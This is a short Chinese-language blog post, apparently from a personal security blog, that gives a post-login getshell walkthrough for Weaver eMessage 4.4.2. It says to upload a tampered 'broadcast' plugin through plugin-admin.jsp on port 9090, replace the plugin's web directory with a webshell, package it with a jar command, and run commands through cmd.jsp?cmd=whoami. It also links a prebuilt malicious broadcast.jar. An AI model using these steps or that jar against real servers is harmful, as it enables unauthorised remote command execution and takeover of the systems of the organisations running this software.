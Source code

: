 ```yaml
---
layout: post
title:  "泛微emessage4.4.2后台getshell"
---
```

# 泛微emessage4.4.2后台getshell

* 需登陆后台

漏洞地址：
http://ip:9090/plugin-admin.jsp
![图片1](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/6/1.jpg)<br />
上传的插件可以在http://ip:9090/plugins/插件名/ 访问到
我们使用broadcast这个插件，替换web目录下的内容为我们的webshell
![图片2](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/6/2.jpg)<br />
使用jar -cvfM0 broadcast ./命令打包成jar进行上传
访问http://ip:9090/plugins/broadcast/cmd.jsp?cmd=whoami
![图片3](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/6/3.jpg)<br />


[broadcast.jar](https://github.com/white-cell/white-cell.github.io/raw/master/img/_post/6/broadcast.jar)<br />